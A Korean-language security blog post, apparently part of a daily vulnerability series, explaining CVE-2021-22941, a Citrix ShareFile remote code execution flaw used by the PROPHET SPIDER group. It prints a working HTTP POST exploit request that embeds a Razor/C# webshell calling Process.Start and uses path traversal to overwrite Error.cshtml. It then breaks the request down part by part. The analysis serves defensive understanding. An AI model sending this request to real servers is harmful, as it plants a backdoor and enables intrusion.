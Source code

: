 ```yaml
---
title: "[하루한줄] CVE-2021-22941: Citrix ShareFile RCE Webshell"
author: Fabu1ous
tags: [Fabu1ous, rce, webshell]
categories: [1day1line]
date: 2022-03-08 14:00:00
cc: true
index_img: /img/1day1line.png


---
```




## URL

[PROPHET SPIDER Exploits Citrix ShareFile Remote Code Execution Vulnerability CVE-2021-22941 to Deliver Webshell](https://www.crowdstrike.com/blog/prophet-spider-exploits-citrix-sharefile/)



## **Target**

Citrix ShareFile storage zones controller < 5.11.20



## **Explain**

PROPHET SPIDER라는 이름으로 알려진 해커 그룹이 Microsoft Internet Information Service (IIS) 웹서버를 공격하기 위해 사용한 취약점 CVE-2021-22941의 상세 정보가 공개되었습니다. 

Citrix ShareFile의 부적절한 접근제어로 인해 해커는 원격 서버에 http request를 보내는 것으로 임의 파일을 원하는 내용으로 덮어 쓸 수 있습니다. 이를 악용하면 타겟 서버에서 임의 코드 실행을 할 수 있습니다.  

```http
POST /upload.aspx?uploadid=%40using+System.Diagnostics%3B%40%7Bint+idx0%3D+0%3Bstring+str_idx0+%3D+idx0.ToString%28%29%3B+int+idx1+%3D+1%3Bstring+str_idx1+%3D+idx1.ToString%28%29%3Bstring+cmd+%3D+Request.QueryString%5Bstr_idx0%5D%3Bstring+arg+%3D+Request.QueryString%5Bstr_idx1%5D%3BProcess.Start%28cmd%2Carg%29%3B%7D%2F..%2F..%2FConfigService%5CViews%5CShared%5CError.cshtml&bp=123&accountid=123
```

위는 Citirx ShareFile의 취약점을 트리거해서 webshell을 업로드하는 http request입니다. 해당 http request는 아래 3가지 핵심요소가 있습니다.

1. uploadid

`/upload.aspx` URI는 ShareFile 업로드에 사용되며 일반적으로 `uploadid`라는 파라미터로 업로드 대상을 명시합니다. 위 http request의 경우에는 해당 파라미터에 webshell이 포함되어있습니다.

2. Razor syntax(`@<>`, `@{}`)

Razor syntax (`@{}`)를 사용해 C# 코드블록을 사용할 수 있습니다. 위 http request의 경우에는 C# 코드블록에 `Process.Start(cmd,arg);`를 포함해 백도어를 제공합니다.

3. path traversal

path traversal 취약점이 있어 Error.cshtml 파일을 payload로 덮어 쓸 수 있습니다. 